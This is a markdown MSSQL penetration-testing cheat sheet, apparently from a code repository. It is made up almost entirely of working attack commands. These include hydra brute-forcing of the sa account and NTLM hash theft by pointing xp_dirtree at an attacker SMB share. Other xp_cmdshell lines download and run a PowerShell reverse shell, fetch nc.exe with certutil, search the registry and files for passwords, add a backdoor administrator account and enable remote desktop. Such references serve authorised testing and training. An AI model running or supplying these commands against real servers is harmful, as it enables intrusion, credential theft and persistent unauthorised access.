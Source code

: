 # MSSQL Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating MSSQL (port 1433), I realistically expect to find:

- [ ] Service banner revealing SQL Server version (for CVE research)
- [ ] Valid credentials via default passwords or brute-force
- [ ] Access to database content (user tables, saved passwords, configs)
- [ ] Ability to execute system commands via xp_cmdshell if enabled
- [ ] Ability to enable xp_cmdshell if permissions allow
- [ ] Possibility to steal NTLM hashes via xp_dirtree triggering SMB authentication
- [ ] Evidence of linked servers for lateral movement
- [ ] Potential to upload payloads or webshells through SQL command output
- [ ] Sensitive data in queryable tables that can be used for further attacks


---

## ✅ MSSQL Pentest Checklist

- [ ] **Try Default Credentials**
    ```text
    sa:password
    ```

- [ ] **Brute-Force Credentials**
    ```bash
    hydra -l sa -P password.txt -V <IP> mssql
    hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
    ```

- [ ] **Check Database Content for New Passwords**
    - Look for user tables, credential dumps.

- [ ] **Check Version for Exploits**
    ```bash
    nmap -p 1433 --script='ms-sql-info,ms-sql-brute,ms-sql-xp-cmdshell' <IP>
    searchsploit mssql
    ```

- [ ] **Steal the NTLM Hash**
    - Using xp_dirtree to trigger SMB authentication.
    ```bash
    exec master..xp_dirtree '\\<ATTACKER_IP>\share'
    ```

- [ ] **Remote Code Execution (RCE)**
  - **Via xp_cmdshell**
  - **By injecting payload into output files placed in webroots**

---

## ✅ MSSQL Useful Commands

- **Connect Using sqsh**
    ```bash
    sqsh -S <IP> -U sa
    sqsh -S <IP> -U sa -P password
    sqsh -S <IP>:27900 -U sa -P password
    ```

- **Connect Using mssqlclient.py**
    ```bash
    mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
    mssqlclient.py <USER>:<PASSWORD>@<IP>
    ```
    - Example Queries:
        ```sql
        SQL> select @@version;
        SQL> enable_xp_cmdshell
        SQL> xp_cmdshell whoami /all
        SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
        ```
    - Stealing Hashes:
        ```bash
        sudo smbserver.py -smb2support share .
        SQL> exec master..xp_dirtree '\\<IP>\share\'
        ```

---

## ✅ Nmap Scanning

- **Basic Enumeration**
    ```bash
    nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or dos)' <IP> -o 1433_nmap_mssql
    ```

- **Credential Brute-Force**
    ```bash
    nmap -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt <IP>
    ```

- **Advanced Scripts**
    ```bash
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password= -sV -p 1433 <IP>
    ```

---

## ✅ Enabling xp_cmdshell for RCE

```sql
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

## ✅ Example xp_cmdshell Commands
```c
xp_cmdshell 'whoami /all';
xp_cmdshell 'systeminfo';
xp_cmdshell 'net user';
xp_cmdshell 'reg query HKLM /f pass /t REG_SZ /s';
xp_cmdshell 'findstr /si password *.txt *.ini *.config *xml';
xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://<IP>/Invoke-PowerShellTcp.ps1')";
xp_cmdshell "certutil -urlcache -f 'http://<IP>/nc.exe' nc.exe";
xp_cmdshell 'net user attacker attackerpass /add';
xp_cmdshell 'net localgroup Administrators attacker /add';
xp_cmdshell 'reg add "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';
```

